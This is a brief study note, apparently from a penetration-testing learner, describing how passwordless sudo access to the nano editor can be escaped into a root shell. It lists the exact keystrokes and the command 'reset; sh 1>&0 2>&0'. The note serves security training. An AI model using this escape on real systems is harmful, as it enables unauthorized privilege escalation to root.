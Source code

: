 # Exploiting Nano

author:: Nathan Acks  
date:: 2022-04-21

If `nano` is allowed to be run via `sudo` without a password, you can use the following to break out into a root shell:

* `CTRL+R` (read file)
* `CTRL+X` (execute file)
* `reset; sh 1>&0 2>&0`

## References

* [2022-04-20 - ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-04-20-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)
